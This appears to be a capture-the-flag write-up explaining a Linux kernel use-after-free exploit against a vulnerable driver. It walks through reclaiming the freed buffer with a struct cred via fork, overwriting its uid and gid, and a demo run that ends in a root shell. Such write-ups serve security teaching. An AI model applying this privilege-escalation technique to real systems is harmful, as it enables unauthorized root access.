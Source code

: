 
Let's explain the exploit. At the high level, it allocates one object with struct cred in the freed object and then modify the uid and gid fields with the dangling pointer.

In detail, the exploit is in several steps:
- The second `open` will overwrite the `device_buf` allocated by the first `open`;
- The `ioctl` will reallocate the device_buf with our provided size `0xa8`, i.e., the size of `struct cred`.
- The `close` will free the device_buf and leave device_buf as a dangling pointer;
- The `fork` will allocate one object with `struct cred` and occupy the space pointed by device_buf;
- The `write` will modify the object with `struct cred` and modify the uid and gid fields;

For the implementation of `fork`, let's refer to [the source code of linux kernel 4.4.72](https://elixir.bootlin.com/linux/v4.4.72/source)

First, the definition of struct cred is defined in [include/linux/cred.h](https://elixir.bootlin.com/linux/v4.4.72/source/include/linux/cred.h#L118)

```
struct cred {
	......
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	......
};
```

Second, the calling sequence of fork system call is as follows:

```
fork (kernel/fork.c#L1819)
  -> _do_fork (kernel/fork.c#L1724)
    -> copy_process (kernel/fork.c#L1268)
      -> copy_creds (kernel/cred.c#L322)
        -> prepare_creds (kernel/cred.c#L243)
          -> kmem_cache_alloc
```

Demonstrate the exploit:

```
$ gcc -static -o exploit exploit.c
$ cp exploit core/tmp/
$ cd core
$ find . | cpio -o --format=newc > rootfs.cpio
$ cp rootfs.cpio ../
$ cd ../
$ ./boot.sh
/ $ cd /tmp/
/tmp $ ls
cred     exploit  poc
/tmp $ ./exploit
[    9.416366] device open
[    9.417081] device open
[    9.417805] alloc done
[    9.418463] device release
[+] root now.
/tmp # id
uid=0(root) gid=0(root) groups=1000(ctf)
```
